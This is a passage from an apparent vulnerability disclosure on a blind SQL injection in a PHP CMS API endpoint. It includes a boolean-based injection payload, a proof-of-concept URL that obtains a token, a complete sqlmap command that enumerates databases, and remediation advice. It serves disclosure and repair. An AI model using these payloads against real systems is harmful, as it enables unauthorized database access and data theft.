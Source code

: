 + '#1*' parameter
## Payload:
```bash
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://localhost:2223/api.php?c=index&f=phpok&token=d78658wLmW5Q1bOllas7lIt1SGOddmp6dH zkBpBDASkPJAUeDbNlHcqsKNLnEa7hn7JDjsaijq5SAk15K&ext[sqlext]=1 AND 3668=3668
    Vector: AND [INFERENCE]
```
# Vulnerability reproduction
## Send POC to obtain token value
```bash
http://localhost:2222/api.php?c=index&f=token&id=m_picplayer
```
+ <img width="942" alt="image" src="https://github.com/user-attachments/assets/e7cbef83-ba6b-4fbf-89f7-d7eaf1cfff8e" />

## Injecting payload into sqlmap
```bash
sqlmap -u 'http://localhost:2223/api.php?c=index&f=phpok&token=d78658wLmW5Q1bOllas7lIt1SGOddmp6dH+zkBpBDASkPJAUeDbNlHcqsKNLnEa7hn7JDjsaijq5SAk15K&ext[sqlext]=1*' --dbms mysql -v 3 --tech B --thread 10 --tamper between --dbs
```
+ <img width="1728" alt="image-1" src="https://github.com/user-attachments/assets/7e5525a7-e7c9-4589-8ae1-1afb4aca2b3e" />

+ <img width="1200" alt="image-2" src="https://github.com/user-attachments/assets/2d3f1706-7c59-422b-b168-479530fa76d5" />

# Suggested repair
1. Use prepared statements and parameter binding:
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. Input validation and filtering:
Strictly validate and filter user input data to ensure it conforms to the expected format.
3. Minimize database user permissions:
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. Regular security audits:
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
